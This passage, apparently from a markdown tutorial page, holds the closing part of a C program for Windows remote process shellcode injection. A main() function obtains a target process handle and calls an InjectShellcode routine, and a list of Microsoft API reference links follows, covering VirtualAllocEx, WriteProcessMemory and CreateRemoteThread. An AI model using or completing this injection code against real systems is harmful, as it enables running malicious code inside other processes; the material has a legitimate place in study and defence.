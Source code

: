```c
			}
		}
		i++;
	
	} while (i < dwProcessesCount && *phProcess == NULL);

	return bStatus;
}

int main() {

	HANDLE hProcess = NULL; // Will hold a process handle retrieved from GetProcessHandle

	// If GetProcessHandle Succeeds, try and inject the shellcode
	if (GetProcessHandle(&hProcess)) {
		// If InjectShellcode fails, print the last error code and exit
		if (!InjectShellcode(hProcess, shellcode, sizeof(shellcode))) {
			printf("[!] Something went wrong. Last error is: %d\n", GetLastError());
			return -1; 
		}
	}

	// Free the shellcode buffer
	HeapFree(GetProcessHeap(), 0, shellcode);
	// Close the handle
	CloseHandle(hProcess);
	return 0;
}
```


## WinAPIs and Usefull Readings
---

- [OpenProcess](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocess)
- [EnumProcesses](https://learn.microsoft.com/en-us/windows/win32/api/psapi/nf-psapi-enumprocesses)
- [WriteProcessMemory](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory)
- [VirtualAllocEx](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex)
- [VirtualProtectEx](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualprotectex)
- [CloseHandle](https://learn.microsoft.com/en-us/windows/win32/api/handleapi/nf-handleapi-closehandle)
- [HeapFree](https://learn.microsoft.com/en-us/windows/win32/api/heapapi/nf-heapapi-heapfree)
- [GetProcessHeap](https://learn.microsoft.com/en-us/windows/win32/api/heapapi/nf-heapapi-getprocessheap)
- [WaitForSingleObject](https://learn.microsoft.com/en-us/windows/win32/api/synchapi/nf-synchapi-waitforsingleobject)
- [CreateRemoteThread](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread)
- [System Error Codes](https://learn.microsoft.com/en-us/windows/win32/debug/system-error-codes)
- [Process Security and Access Rights](https://learn.microsoft.com/en-us/windows/win32/procthread/process-security-and-access-rights)


